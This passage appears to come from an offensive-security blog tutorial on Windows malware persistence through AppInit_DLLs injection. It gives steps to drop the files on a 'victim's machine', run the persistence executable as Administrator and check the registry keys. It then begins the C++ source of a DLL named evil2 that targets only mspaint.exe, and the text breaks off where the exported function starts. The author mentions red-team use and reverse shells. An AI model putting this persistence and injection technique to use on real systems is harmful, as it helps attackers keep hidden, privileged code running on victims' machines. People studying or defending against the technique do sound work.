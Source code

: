 Let's go to see everything in action! Drop all to victim's machine (`Windows 10 x64` in my case).

Then run as Administartor:

```powershell
.\pers.exe
```

and:

```powershell
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Windows" /s
reg query "HKLM\Software\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Windows" /s
```

just check.

![pers](/assets/images/55/2022-05-16_05-42.png){:class="img-responsive"}    

Then, for demonstration, open something like `Paint` or `Notepad`:

![pers](/assets/images/55/2022-05-16_06-59.png){:class="img-responsive"}    

![pers](/assets/images/55/2022-05-16_07-00_1.png){:class="img-responsive"}    

So, everything is worked perfectly :)

### second example:

However, this method's implementation may result in stability and performance difficulties on the target system:

![pers](/assets/images/55/2022-05-16_10-44.png){:class="img-responsive"}    

Furthermore, I think that the logic of the first DLL's is considered very odd since multiple message boxes popup, so when we act real-life action in red team scenarios: it's very noisy, for example for multiple reverse shell connections.

I tried updating little bit the logic of `evil.dll`:

```cpp
/*
evil2.cpp
inject via Appinit_DLLs - only for `mspaint.exe`
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2022/05/16/malware-pers-5.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

char* subStr(char *str, char *substr) {
  while (*str) {
    char *Begin = str;
    char *pattern = substr;
    while (*str && *pattern && *str == *pattern) {
      str++;
      pattern++;
    }
    if (!*pattern)
  	  return Begin;

    str = Begin + 1;
  }
  return NULL;
}

extern "C" {
  __declspec(dllexport) BOOL WINAPI runMe(void) {
```